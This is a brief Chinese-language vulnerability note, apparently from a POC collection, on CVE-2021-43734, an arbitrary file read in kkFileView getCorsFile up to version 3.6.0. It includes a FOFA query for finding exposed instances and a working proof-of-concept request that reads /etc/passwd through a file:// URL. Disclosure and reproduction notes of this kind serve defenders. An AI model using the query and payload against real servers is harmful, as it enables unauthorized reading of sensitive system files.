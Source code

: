 # kkFileView getCorsFile 任意文件读取漏洞 CVE-2021-43734

## 漏洞描述

kkFileView getCorsFile 3.6.0 版本以下存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的任意文件，获取服务器敏感信息

## 漏洞影响

```
kkFileView getCorsFile <= 3.6.0
```

## FOFA

```
body="kkFileView"
```

## 漏洞复现

主页面

![image-20220524172325491](./images/202205241723549.png)

验证POC

```
/getCorsFile?urlPath=file:///etc/passwd 
```

![image-20220524172414993](./images/202205241724070.png)
